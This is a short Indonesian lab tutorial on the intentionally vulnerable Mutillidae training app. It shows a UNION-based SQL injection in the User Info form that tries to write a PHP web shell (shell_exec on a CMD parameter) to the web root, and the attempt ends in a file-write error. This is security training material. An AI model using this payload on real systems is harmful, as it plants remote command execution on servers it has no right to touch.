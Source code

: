 # Mutillidae Lesson 10


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%208/1.png)

### SQL Injection dengan Output File execute_command.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
![](Mutillidae%20lesson%208/2.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2010/1.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2010/2.png)

